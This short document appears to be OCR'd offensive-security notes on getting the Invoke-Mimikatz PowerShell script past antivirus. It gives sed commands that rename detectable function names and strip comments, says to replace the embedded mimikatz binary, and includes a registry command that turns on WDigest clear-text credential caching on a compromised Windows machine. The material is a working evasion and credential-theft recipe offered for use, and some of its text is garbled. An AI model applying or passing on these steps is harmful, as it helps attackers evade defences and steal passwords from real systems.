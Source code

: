 Perform antivirus activities bypass AV machines

# Invoke-Mimikatz.ps1 (obfuscated functions)

- sed -i -e 's/Invoke-Mimikatz/Invoke-LSASSscraper/g' Invoke-Mimikatz.ps1
- sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1
- sed -i -e 's/DumpCreds/Dump/g' Invoke-Mimikatz.ps1
- sed -i -e 's/ArgumentPtr/Obf/g' Invoke-Mimikatz.ps1
- sed -i -e 's/CallDllMainSC1/ObfSC1/'g Invoke-Mimikatz.ps1
- sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions \$Win32Functions #\-/g" Invoke-Mimikatz.ps1

#-# On Windows

Replace the $PESBytes64 with a new one of mimikatz
Lavereging the Steroids-Module for obfuscation


# Subverting mimikatz patch (on compromise machine to extract clear text password)

- add HKLM\SYSTEM\CurrentControlSet\Conttol\SecurityProviders\WDigest /v UserLogonCredential /t REG_DWORD /d 1 /f

